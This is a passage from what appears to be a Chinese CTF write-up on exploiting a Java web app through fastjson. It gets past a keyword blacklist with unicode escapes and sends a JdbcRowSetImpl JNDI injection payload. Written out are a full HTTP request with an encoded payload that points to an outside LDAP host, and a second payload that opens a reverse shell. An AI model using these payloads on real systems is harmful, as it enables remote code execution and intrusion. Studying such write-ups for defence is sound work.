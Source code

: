 可以发现传入 data 这个 json 字符串然后进行鉴权并且给到`JSON.parse`​解析，其实可以想到绕过黑名单+fastjson 打 C3p0 不出网这个思路，也可以直接打 jndi 注入吧，跟进`SecurityCheck`​

[![](assets/1709282823-d8a240a9ba1d362b958ff7d61eaab13a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162655-4c586f2a-d6dc-1.png)

可以想到用 16 进制或者 unicode 来进行绕过黑名单，所以有以下打法

### JNDI 注入 (出网+jdk 低版本)

本地用的是 jdk8u65

```bash
POST /admin/user%0d HTTP/1.1
Host: localhost:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

data={{urlenc(eyJAdHlwZSI6Ilx1MDA2M1x1MDA2Zlx1MDA2ZFx1MDAyZVx1MDA3M1x1MDA3NVx1MDA2ZVx1MDAyZVx1MDA3Mlx1MDA2Zlx1MDA3N1x1MDA3M1x1MDA2NVx1MDA3NFx1MDAyZVx1MDA0YVx1MDA2NFx1MDA2Mlx1MDA2M1x1MDA1Mlx1MDA2Zlx1MDA3N1x1MDA1M1x1MDA2NVx1MDA3NFx1MDA0OVx1MDA2ZFx1MDA3MFx1MDA2YyIsImRhdGFTb3VyY2VOYW1lIjoibGRhcDovLzEwNy4xNzQuMjI4Ljc5OjEzODkvQmFzaWMvQ29tbWFuZC9jYWxjIiwiYXV0b0NvbW1pdCI6dHJ1ZX0=)}}
```

直接反弹 shell 即可

```bash
{"@type":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","dataSourceName":"ldap://xxx:1389/Basic/ReverseShell/xxx/7979","autoCommit":true}
```
